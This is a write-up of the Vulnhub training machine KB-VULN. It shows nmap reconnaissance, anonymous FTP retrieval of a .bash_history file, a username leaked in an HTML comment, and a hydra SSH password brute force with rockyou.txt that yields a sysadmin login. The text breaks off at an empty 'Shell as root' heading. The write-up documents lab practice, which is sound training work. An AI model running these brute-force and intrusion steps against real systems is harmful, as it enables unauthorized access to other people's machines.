 ```yaml
---
title: Vulnhub - KB-VULN
description: My writeup on KB-VULN box.
categories:
 - vulnhub
tags: vulnhub hydra ssh
---
```


![](https://www.creativefabrica.com/wp-content/uploads/2019/03/Monogram-KB-Logo-Design-by-Greenlines-Studios.jpg)

You can find the machine there > [KB-VULN](https://www.vulnhub.com/entry/kb-vuln-1,540/){:target="_blank"}

## Summary

This machine is an easy one, from source code enumeration we can detect a username and ssh brute force with it. After gaining a low-privilege shell we can exploit motd daemon and change root password. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.20
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 00:11 EEST
Nmap scan report for kb-server.zte.com.cn (192.168.1.20)
Host is up (0.00017s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:09:6B:FC (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.14 seconds
$ nmap -p 21,22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 00:11 EEST
Nmap scan report for kb-server.zte.com.cn (192.168.1.20)
Host is up (0.00039s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:84:46:ae:47:21:d1:73:7d:2f:0a:66:87:98:af:d3 (RSA)
|   256 af:79:86:77:00:59:3e:ee:cf:6e:bb:bc:cb:ad:96:cc (ECDSA)
|_  256 9d:4d:2a:a1:65:d4:f2:bd:5b:25:22:ec:bc:6f:66:97 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: OneSchool &mdash; Website by Colorlib
```

Let's start the enumeration on port 21 since we have to anonymous allowed, we can see a `.bash_history` file let's download it.

```
$ ftp $ip
Connected to 192.168.1.20.
220 (vsFTPd 3.0.3)
Name (192.168.1.20:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    2 1000     1000         4096 Aug 22 17:39 .
drwxrwxr-x    2 1000     1000         4096 Aug 22 17:39 ..
-rw-r--r--    1 0        0              54 Aug 22 17:39 .bash_history
226 Directory send OK.
ftp> get .bash_history
local: .bash_history remote: .bash_history
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .bash_history (54 bytes).
226 Transfer complete.
```

At the time is useless, maybe we can use it later.

```
$ cat .bash_history 
exit
ls
cd /etc/update-motd.d/
ls
nano 00-header
exit
```

## Shell as sysadmin

Let's move on, port 80 source code gives us a username probably system one because i can't find a way to use it on web.

```html
$ curl http://$ip/
<!DOCTYPE html>
<html lang="en">
<head>
<title>OneSchool &mdash; Website by Colorlib</title>
<meta charset="utf-8">

...data...

<!-- Username : sysadmin -->
```

Let's try to ssh brute force with it, using rockyou.txt. & here we go!

```
$ hydra -l sysadmin -P /usr/share/wordlists/rockyou.txt $ip ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-14 00:20:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.1.20:22/
[22][ssh] host: 192.168.1.20   login: sysadmin   password: password1
```

```
$ ssh sysadmin@$ip
sysadmin@192.168.1.20's password: 

sysadmin@kb-server:~$ whoami;id
sysadmin
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

## Shell as root
